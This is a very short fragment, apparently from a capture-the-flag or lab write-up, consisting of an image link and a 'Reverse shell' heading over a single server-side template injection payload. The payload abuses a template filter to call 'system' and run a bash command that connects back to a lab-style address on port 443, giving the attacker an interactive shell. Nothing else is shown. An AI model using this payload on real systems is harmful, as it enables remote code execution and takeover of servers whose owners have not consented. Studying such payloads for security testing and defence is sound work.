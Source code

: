 ![](22.png)

##### Reverse shell
```bash
{{["bash -c 'bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1'"]|filter('system')|join(",")}}
```
